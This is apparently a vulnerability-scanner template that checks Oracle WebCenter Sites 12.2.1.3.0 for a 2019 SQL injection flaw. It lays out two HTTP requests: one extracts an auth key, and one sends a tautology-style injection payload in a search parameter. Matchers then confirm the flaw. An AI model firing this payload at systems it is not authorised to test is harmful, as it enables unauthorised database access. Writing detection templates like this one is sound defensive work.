 ## Description

- The Oracle WebCenter Sites component of Oracle Fusion Middleware 12.2.1.3.0 is susceptible to SQL injection via an easily exploitable vulnerability that allows low privileged attackers with network access via HTTP to compromise Oracle WebCenter Sites. Successful attacks of this vulnerability can result in unauthorized read access to a subset of Oracle WebCenter Sites accessible data.
- severity - medium
- tags - cve,cve2019,oracle,wcs,sqli

## Requests

### Step - 1

```
GET /cs/Satellite?pagename=OpenMarket/Xcelerate/Admin/WebReferences HTTP/1.1
Host: {{Hostname}}

```

### Step - 2

```
POST /cs/ContentServer HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

_authkey_={{authkey}}&pagename=OpenMarket%2FXcelerate%2FAdmin%2FWebReferences&op=search&urlsToDelete=&resultsPerPage=25&searchChoice=webroot&searchText=%27+and+%271%27%3D%270+--+

```

### Matchers

**Type - word**

- words
  1. value='&#39; and &#39;1&#39;=&#39;0 --
  2. Use this utility to view and manage URLs
- condition - and

**Type - status**

- status
  1. 200

### Extractors

**Type - regex**

- name - authkey
- part - body
- internal - True
- group - 1
- regex
  1. NAME='_authkey_' VALUE='([0-9A-Z]+)'>

---